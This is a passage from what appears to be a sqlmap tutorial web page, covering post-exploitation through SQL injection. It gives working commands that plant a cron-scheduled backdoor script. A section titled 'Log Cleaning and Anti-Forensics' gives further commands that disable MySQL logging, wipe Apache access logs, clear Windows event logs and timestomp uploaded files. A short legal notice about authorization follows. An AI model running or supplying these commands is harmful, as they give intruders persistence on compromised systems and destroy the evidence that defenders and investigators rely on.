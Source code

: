 </div>

<div>

python sqlmap.py -u \"target\" \--os-cmd \"echo \'0 2 \* \* \*
/tmp/backdoor.sh\' \| crontab -\"

</div>
:::
:::
:::

### Log Cleaning and Anti-Forensics

::: code-block
    # Clear MySQL query logs
    python sqlmap.py -u "http://target.com/page?id=1" \
      --sql-query "SET GLOBAL general_log = 'OFF'"

    # Clear web server logs
    python sqlmap.py -u "http://target.com/page?id=1" \
      --os-cmd "echo '' > /var/log/apache2/access.log"

    # Clear Windows event logs
    python sqlmap.py -u "http://target.com/page?id=1" \
      --os-cmd "wevtutil cl System && wevtutil cl Security && wevtutil cl Application"

    # Timestomp files (modify timestamps)
    python sqlmap.py -u "http://target.com/page?id=1" \
      --os-cmd "touch -r /etc/passwd /tmp/uploaded_file.txt"
:::

::: {.warning .risk-high}
**⚠️ Legal Notice:** Post-exploitation activities must only be performed
on systems you own or have explicit written authorization to test. Log
cleaning and persistence mechanisms are serious security violations if
performed without proper authorization.
:::
:::

::: {#troubleshooting .section .section}
## Troubleshooting

### Common Issues and Solutions

::: feature-grid
::: feature-card
#### Connection Problems
